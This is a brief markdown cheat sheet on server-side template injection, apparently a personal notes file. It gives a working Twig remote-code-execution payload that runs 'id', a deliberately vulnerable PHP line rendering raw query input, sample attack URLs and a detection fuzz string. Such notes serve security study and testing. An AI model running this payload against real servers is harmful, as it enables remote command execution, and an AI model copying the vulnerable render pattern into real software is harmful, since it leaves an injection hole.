 ﻿
## Server Side Template Injection

Reference

```
https://portswigger.net/blog/server-side-template-injection

```

Twing RCE Payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}  

```
Vulnerable Code Example
`$output = $twig->render("Dear " . $_GET['name']);`
`http://vulnerable-website.com/?name={{bad-stuff-here}}`
`http://vulnerable-website.com/?greeting=data.username}}<tag>`

Detect
-  fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`

